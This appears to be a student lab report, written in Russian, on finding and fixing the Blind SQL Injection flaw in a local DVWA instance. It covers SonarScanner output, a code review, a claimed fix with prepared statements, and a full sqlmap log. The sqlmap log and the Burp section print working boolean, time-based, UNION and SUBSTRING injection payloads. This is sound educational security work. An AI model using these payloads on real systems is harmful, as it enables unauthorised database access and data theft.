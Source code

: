 # Практика 4. Разработка безопасного программного обеспечения

**Использование статического анализатора кода для обеспечения безопасности**

**Задача**

### 1. Необходимо найти участок кода, содержащий инъекцию SQL кода в задании Blind Sql Injection на сайте dvwa.local с использованием статического анализатора кода

В папке sqli_blind создала файл sonar-project.properties c содержимым:

![alt text](source/sonar-project.png)

Запустула анализа с помощью sonar-scanner

#### Результат

![alt text](<source/Снимок экрана 2024-12-05 214659.png>)

![alt text](<source/Снимок экрана 2024-12-05 214752.png>)

![alt text](<source/Снимок экрана 2024-12-05 214841.png>)


### 2. Проанализировать код и сделать кодревью, указав слабые места

Применение глобальных переменных, таких как $GLOBALS["___mysqli_ston"], не является хорошей практикой, так как это делает код трудным для отладки и поддержания. Лучше использовать объектно-ориентированный подход с MySQLi или PDO для работы с базой данных. 

    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid ); // Removed 'or die' to suppress mysql errors

Код уязвим к SQL-инъекциям, так как значение $id напрямую вставляется в запрос. Необходимо использовать подготовленные выражения или экранировать входные данные. 

    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";

Не проверяется, существует ли ключ 'id' в массиве $_GET. Следует проверить, что он существует и что его значение является числом перед использованием

    $id = $_GET\[ 'id' \];


### 3. Разработать свою систему вывода информации об объекте на любом языке, исключающий взможность инъекции SQL кода. Возможно исправление участка кода из dvwa.local *Требования к системе авторизации*
   - Система вывода информации об объекте должна использовать запросы GET с параметрами, аналогичными из задания Blind SQL injection dvwa

Cистема представленат в файле [index.php](index.php)

**Саммари по системе:**

- Подготовленные выражения предотвращают SQL-инъекции, так как данные, передаваемые в запрос, не вставляются напрямую в строку SQL.
- Проверка параметров GET предотвращает использование некорректных или пустых значений.
- Код не использует подавление ошибок (например, @mysqli_error()), что позволяет явно обрабатывать ошибки и исключения.


### 4. Использовать sqlmap для нахождения уязвимости в веб-ресурсе


```bash
D:\tools\sqlmap>sqlmap -u "http://127.0.0.1/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=usbpb1ans2uosssjrk499a3pl2; security=low" --batch --risk=3 --level=5
___
__H__
___ ___["]_____ ___ ___  {1.8.12#pip}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
|_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:28:59 /2024-12-07/

[10:28:59] [INFO] testing connection to the target URL
[10:28:59] [INFO] checking if the target is protected by some kind of WAF/IPS
[10:28:59] [INFO] testing if the target URL content is stable
[10:28:59] [INFO] target URL content is stable
[10:28:59] [INFO] testing if GET parameter 'id' is dynamic
[10:28:59] [WARNING] GET parameter 'id' does not appear to be dynamic
[10:29:00] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
[10:29:00] [INFO] testing for SQL injection on GET parameter 'id'
[10:29:00] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[10:29:01] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --code=200)
[10:29:02] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
[10:29:02] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[10:29:03] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[10:29:03] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[10:29:03] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[10:29:03] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[10:29:03] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[10:29:03] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[10:29:03] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[10:29:03] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[10:29:03] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[10:29:03] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[10:29:03] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[10:29:03] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[10:29:03] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[10:29:03] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[10:29:03] [INFO] testing 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)'
[10:29:03] [INFO] testing 'MySQL OR error-based - WHERE or HAVING clause (FLOOR)'
[10:29:03] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACTVALUE)'
[10:29:03] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (BIGINT UNSIGNED)'
[10:29:03] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (EXP)'
[10:29:03] [INFO] testing 'MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)'
[10:29:03] [INFO] testing 'MySQL >= 5.7.8 error-based - Parameter replace (JSON_KEYS)'
[10:29:03] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[10:29:03] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)'
[10:29:03] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
[10:29:03] [INFO] testing 'Generic inline queries'
[10:29:04] [INFO] testing 'MySQL inline queries'
[10:29:04] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[10:29:04] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[10:29:04] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[10:29:04] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[10:29:04] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[10:29:04] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[10:29:04] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[10:29:14] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
[10:29:14] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[10:29:14] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[10:29:14] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[10:29:14] [INFO] target URL appears to have 2 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] N
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[10:29:15] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql')
[10:29:16] [INFO] target URL appears to be UNION injectable with 2 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[10:29:17] [INFO] testing 'Generic UNION query (89) - 21 to 40 columns'
[10:29:18] [INFO] testing 'Generic UNION query (89) - 41 to 60 columns'
[10:29:19] [INFO] testing 'Generic UNION query (89) - 61 to 80 columns'
[10:29:20] [INFO] testing 'Generic UNION query (89) - 81 to 100 columns'
[10:29:21] [INFO] testing 'MySQL UNION query (89) - 1 to 20 columns'
[10:29:22] [INFO] testing 'MySQL UNION query (89) - 21 to 40 columns'
[10:29:23] [INFO] testing 'MySQL UNION query (89) - 41 to 60 columns'
[10:29:24] [INFO] testing 'MySQL UNION query (89) - 61 to 80 columns'
[10:29:25] [INFO] testing 'MySQL UNION query (89) - 81 to 100 columns'
[10:29:26] [INFO] checking if the injection point on GET parameter 'id' is a false positive
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 362 HTTP(s) requests:
---
Parameter: id (GET)
Type: boolean-based blind
Title: AND boolean-based blind - WHERE or HAVING clause
Payload: id=1' AND 4368=4368-- VbzU&Submit=Submit

Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: id=1' AND (SELECT 1725 FROM (SELECT(SLEEP(5)))OGHr)-- Fkif&Submit=Submit
---
[10:29:27] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9 (stretch)
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[10:29:27] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 272 times
[10:29:27] [INFO] fetched data logged to text files under 'C:\Users\balzh\AppData\Local\sqlmap\output\127.0.0.1'

[*] ending @ 10:29:27 /2024-12-07/
```

### 5. Использовать Burp для нахождения уязвимости в веб-ресурсе

![alt text](</source/Burp Suite.png>)

На практике в DVWA с использованием Burp Suite обнаружены несколько уязвимостей. 

- Первая — это Boolean-based SQL Injection. Например, запрос `id=1' AND 1=1 --` возвращает корректный ответ со статусом `200`, что подтверждает выполнение условия, а запрос `id=1' AND 1=2 --` также возвращает статус `200`, но с другой длиной ответа, что говорит о возможности влиять на выполнение SQL-запроса. 
- Вторая уязвимость — Union-based SQL Injection. При использовании запроса `id=1' UNION SELECT NULL,NULL --` сервер возвращает валидный ответ, что указывает на возможность объединения с другими данными. Также запрос `id=1' UNION SELECT first_name, last_name FROM users --` подтверждает, что можно извлечь данные из таблицы `users`. 
- Третья уязвимость — Blind SQL Injection, которая позволяет проводить анализ структуры базы данных. Например, при использовании подзапроса `id=1' AND SUBSTRING((SELECT database()),1,1)='d' --` сервер возвращает успешный ответ, что позволяет по символам узнать имя базы данных. 

Эти уязвимости дают злоумышленнику возможность извлекать данные, изменять запросы и получать информацию о структуре базы. Для защиты необходимо применять параметризованные запросы, использовать ORM-библиотеки, проводить валидацию пользовательского ввода и ограничивать права доступа к базе данных.